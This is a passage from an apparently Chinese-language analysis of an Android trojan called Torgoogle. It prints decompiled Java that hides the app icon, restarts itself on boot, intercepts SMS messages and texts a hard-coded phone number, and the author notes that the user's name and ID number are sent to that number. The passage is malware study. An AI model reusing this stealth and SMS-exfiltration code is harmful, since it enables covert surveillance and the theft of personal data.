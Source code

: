 对身份证号码的日期进行了验证，当用户点击注册后姓名和身份证号码都会被发送到作者的手机上。。这一点就比较严重了。

分析完主程序，我们来看看植入的木马程序是做什么的。

Torgoogle的入口程序非常简单。
	
	:::java
    requestWindowFeature(1);
    setContentView(2130903063);
    getPackageManager().setComponentEnabledSetting(getComponentName(), 2, 1);
    System.out.println("APP图标隐藏成功==============================");
    Intent localIntent = new Intent();
    localIntent.setClass(this, ListenMessageService.class);
    startService(localIntent);
    System.out.println(" startService成功==============================");
    System.out.println("--------->>>finish()");
    finish();

就是简单的隐藏了程序的图标，没了。那他的工作是做什么的呢?

我们发现了有个自动启动的代码，查看之：

> BroadcastAutoBoot

	:::java
      public void onReceive(Context paramContext, Intent paramIntent)
  	{
    System.out.println("收到开机广播===================================");
    System.out.println("木马 killProcess==================================");
    Intent localIntent = new Intent();
    localIntent.setClass(paramContext, ListenMessageService.class);
    paramContext.startService(localIntent);
    System.out.println(" startService成功==============================");
    Process.killProcess(Process.myPid());
  	}

每次开机都会启动ListenMessageService，然后杀掉自己的开机监听。很像病毒的做法。

在这个服务中首先将会启动一个短信拦截服务：

    :::java
	 public void run()
      {
        try
        {
          sleep(3000L);
          Looper.prepare();
          System.out.println("Sleep 3秒后-->startForeground-->registerContentObserver");
          ListenMessageService.this.startForeground(1378, ListenMessageService.this.notification);
          ListenMessageService.this.app = ((CustomApplication)ListenMessageService.this.getApplication());
          boolean bool = ListenMessageService.this.app.isReg;
          System.out.println("isReg-->>>" + ListenMessageService.this.app.isReg);
          if (!bool)
          {
            ListenMessageService.this.getContentResolver().registerContentObserver(Uri.parse("content://sms"), true, new ListenMessageService.SmsObserver(ListenMessageService.this, new ListenMessageService.SmsHandler(ListenMessageService.this, ListenMessageService.this)));
            ListenMessageService.this.app.isReg = true;
            SmsManager.getDefault().sendTextMessage("18670259904", null, "【数据库截获】监控service启动", null, null);
          }
          Looper.loop();
          return;
        }
        catch (InterruptedException localInterruptedException)
        {
          while (true)
            localInterruptedException.printStackTrace();
        }